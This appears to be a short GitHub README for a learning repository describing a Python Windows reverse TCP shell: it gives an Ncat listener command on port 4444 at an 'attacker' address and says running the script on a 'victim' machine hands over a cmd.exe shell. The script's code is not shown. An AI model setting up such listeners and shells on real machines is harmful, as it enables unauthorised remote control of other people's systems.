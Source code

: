 # advance_python_learning

Advance c learning for system driver development & reverse engineering

## Topics

- windows_reverse_tcp_shell spwan cmd.exe -
  - This connects to server IP on specific port.

## Prerequisites
- python 3 - https://www.python.org/downloads/
- Ncat - https://nmap.org/ncat/

## Usages

- Ncat attacker server listeninig on a port eg: here (192.168.1.9) is controlled by attacker and listening incoming to incoming requests on port 4444, below is cmd which creates listner
    - ncat.exe -lvnp 4444


- On execute `python windows_reverse_tcp_shell.py` on client/victim machine it will spawn cmd.exe shell to victim, Bang!

